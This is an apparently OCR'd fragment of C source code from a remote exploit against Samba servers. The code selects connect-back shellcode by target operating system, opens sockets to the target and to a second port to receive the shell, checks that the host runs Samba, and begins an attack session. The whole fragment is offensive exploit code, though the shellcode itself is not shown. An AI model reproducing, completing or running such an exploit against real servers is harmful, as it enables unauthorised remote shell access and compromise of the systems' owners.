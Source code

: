                             switch(targets[type - 1].os_type) {
                                    case 0: /* linux */
                                            shellcode = linux_connect_back;
                                            break;
                                    case 1: /* FreeBSD/NetBSD */
                                            shellcode = bsd_connect_back;
                                            break;
                                    case 2: /* OpenBSD */
                                            shellcode = bsd_connect_back;
                                            break;
                                    case 3: /* OpenBSD 3.2 Non-exec stack */
                                            shellcode = bsd_connect_back;
                                            break;
                            }

                    }

                    if ((sock = socket(AF_INET, SOCK_STREAM, 6)) < 0) {
                            fprintf(stderr, "+ socket() error.\n");
                            return -1;
                    }

                    if ((sock2 = socket(AF_INET, SOCK_STREAM, 6)) < 0) {
                            fprintf(stderr, "+ socket() error.\n");
                            return -1;
                    }

                    memcpy(&addr1.sin_addr, he->h_addr, he->h_length);
                    memcpy(&addr2.sin_addr, he->h_addr, he->h_length);

                    addr1.sin_family = AF_INET;
                    addr1.sin_port   = htons(port);
                    addr2.sin_family = AF_INET;
                    addr2.sin_port   = htons(45295);

                    if (connect(sock, (struct sockaddr *)&addr1, sizeof(addr1)) == -1) {
                            fprintf(stderr, "+ connect() error.\n");
                            return -1;
                    }

                    if (verbose == 1) fprintf(stdout, "+ %s\n", targets[type - 1].type);

                    if (force == 0) {

                            if (is_samba(argv[optind], 2) != 0) {
                                    fprintf(stderr, "+ Host is not running samba!\n\n");
                                    return -1;
                            }

                            fprintf(stderr, "+ Host is running samba.\n");
                    }

                    if (verbose == 1) fprintf(stdout, "+ Connected to [%s:%d]\n", (char *)inet_ntoa(addr1.sin_addr), port);

                    if (start_session(sock) < 0) fprintf(stderr, "+ Session failed.\n");
